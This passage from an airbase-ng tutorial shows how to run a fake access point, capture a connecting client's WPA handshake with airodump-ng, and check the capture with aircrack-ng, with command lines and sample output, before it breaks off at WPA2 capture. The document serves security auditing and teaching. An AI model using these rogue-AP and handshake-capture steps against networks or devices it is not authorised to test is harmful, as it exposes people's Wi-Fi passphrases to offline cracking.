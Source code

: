 The system responds:

``` airbase-ng
10:17:24  Created tap interface at0
10:22:13  Client 00:0F:B5:AB:CB:9D associated (WPA1;TKIP) to ESSID: "teddy"
```

The last line only appears when the client associates.

On another console window run:

``` bash
airodump-ng -c 9 -d 00:C0:C6:94:F4:87 -w cfrag wlan0
```

- -c 9 specifies the channel
- -d 00:C0:C6:94:F4:87 filters the data captured to fake AP MAC.  It is MAC of card running the fake AP.  This is optional.
- -w specifies the file name of the captured data
- wlan0 specifies the wireless interface to capture data on

When the client connects, notice the "WPA handshake: 00:C0:C6:94:F4:87" in the top right-hand corner of the screen below:

``` airodump-ng
   CH  9 ][ Elapsed: 5 mins ][ 2008-03-21 10:26 ][ WPA handshake: 00:C0:C6:94:F4:87 ]

   BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB  ENC  CIPHER AUTH ESSID

   00:C0:C6:94:F4:87  100  70     1602       14    0   9  54  WPA  TKIP   PSK  teddy
  
   BSSID              STATION            PWR   Rate  Lost  Packets  Probes
  
   00:C0:C6:94:F4:87  00:0F:B5:AB:CB:9D   86   2- 1     0       75
```

Alternatively, use the "-F \<file name prefix> option with airbase-ng to directly write a   capture file instead of using airodump-ng.

Running "aircrack-ng cfrag-01.cap" proves it captured a valid WPA handshake:

``` aircrack-ng
 Opening cfrag-01.cap
 Read 114392 packets.
 
 #  BSSID              ESSID                     Encryption
 
 1  00:C0:C6:94:F4:87  teddy                     WPA (1 handshake)
```

#### WPA2 Handshake Capture

Capturing a WPA2 is basically identical to the example above regarding WPA.  The typical difference is to specify -Z 4 (CCMP cipher) instead of -z 2.

Enter:

``` bash
airbase-ng -c 9 -e teddy -Z 4 -W 1 rausb0
```
